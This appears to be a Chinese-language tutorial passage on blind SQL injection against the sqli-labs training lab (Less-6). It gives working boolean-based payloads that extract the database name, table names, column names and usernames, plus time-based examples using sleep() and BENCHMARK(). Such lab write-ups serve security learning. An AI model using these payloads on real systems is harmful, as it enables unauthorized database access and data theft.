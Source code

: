 获取数据库名长度
```mysql
http://go.go/sqli-labs/Less-6/?id=1" and length(database())=1 -- +
```
可以通过python脚本或者burp来跑

获取数据库名
```mysql
http://go.go/sqli-labs/Less-6/?id=1" and mid(database(),1,1)='s' -- +
```
可以通过字符串函数及其参数来更改payload拿到数据库名

获取表名
```mysql
http://go.go/sqli-labs/Less-6/?id=1" and mid((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)='e' -- +
```
修改limit和mid的参数即可拿到数据

获取字段名
```mysql
http://go.go/sqli-labs/Less-6/?id=1" and mid((select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 0,1),1,1)='i'-- +
```
获取数据
```mysql
http://go.go/sqli-labs/Less-6/?id=1" and mid((select username from user limit 0,1),1,5)='admin' -- +
```

ps:其实盲注用二分法比穷举快

### 基于时间盲注
适用于对页面无变化，无法用布尔盲注判断的情况，一般用到函数 `sleep()` `BENCHMARK()`。

`sleep()`作用是用来延时
`benchmark()`其作用是来测试一些函数的执行速度。benchmark()中带有两个参数，第一个是执行的次数，第二个是要执行的函数或者是表达式。

时间盲注我们还需要使用条件判断函数if()
`if（expre1，expre2，expre3）` 当expre1为true时，返回expre2，false时，返回expre3

我只举一下例子
```mysql
mysql> select * from users where id =1 and if((substr((select user()),1,1)='r'),sleep(5),1);
Empty set (5.01 sec)

mysql> select * from users where id =1 and if((substr((select user()),1,1)='r1'),sleep(5),1);
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)

mysql> select * from users where id =1 and if((substr((select user()),1,1)='r'),BENCHMARK(20000000,md5('a')),1);
Empty set (5.15 sec)
```
